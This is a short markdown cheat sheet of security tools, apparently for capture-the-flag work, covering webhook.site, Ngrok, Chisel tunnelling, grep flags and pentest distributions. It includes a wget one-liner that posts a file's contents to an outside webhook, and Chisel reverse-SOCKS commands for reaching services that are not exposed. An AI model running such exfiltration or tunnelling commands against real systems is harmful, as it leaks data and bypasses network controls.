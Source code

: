 # Common tools

## Misc

- https://webhook.site

  - receive remote connections
  - `wget https://webhook.site/[id] --post-data="$(cat flag)"`

- [Ngrok](https://ngrok.com/)
  - reverse proxy, connect localhost and internet
- [Chisel](https://github.com/jpillora/chisel)
  - A fast TCP/UDP tunnel over HTTP
  - example use:
    - server:
      - `./chisel server -p 8001 --reverse`
    - client:
      - `./chisel client 10.10.14.13:8001 R:socks`
      - commonly used inside of docker container to tunnel unexposed service to our local environment
        - use proxy 1080 in local browser to find docker ip 172.17.0.1 directly, or whatever port is required, 172.17.0.1:3000
        - might have to add the ip 172.17.0.1 to /etc/hosts

## Quality of life

- [unf](https://github.com/io12/unf) - UNixize Filename
- [tldr](https://github.com/tldr-pages/tldr)
- [navi](https://github.com/denisidoro/navi)
  - `navi --cheatsh nmap`

## Operating systems

### Linux

- [Kali](https://www.kali.org/)
- [Blackarch](https://blackarch.org/)

- grep
  - `-r`, recursive
  - `-E`, regex
  - `-i`, case insensitive
  - `-v`, invert match, exclude
  - `grep "10.10.10.12" file.log | grep -v "gobuster"`

### Windows

- [Flare VM](https://github.com/mandiant/flare-vm)
